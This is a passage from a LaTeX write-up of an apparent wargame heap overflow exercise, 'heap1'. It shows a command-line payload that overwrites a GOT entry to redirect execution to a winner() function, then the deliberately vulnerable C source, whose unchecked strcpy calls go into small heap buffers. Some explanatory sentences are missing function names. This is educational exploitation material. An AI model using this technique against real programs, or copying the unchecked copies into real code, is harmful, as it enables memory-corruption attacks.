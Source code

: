 We now finally call the program with the offset and the 2 address of the function
that we want to call. The first address is the  function and the second
is the function  which we want to modify in place of the 
address in the GOT table.

\begin{lstlisting}[language=bash]
./heap1 `python -c "print 'A' * 20 + '\x74\x97\x04\x08'"` `python -c "print '\x94\x84\x04\x08'"`
>>>and we have a winner @ 1713043778
\end{lstlisting}

\subsection*{Source code}

\begin{lstlisting}[language=c]
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
\end{lstlisting}

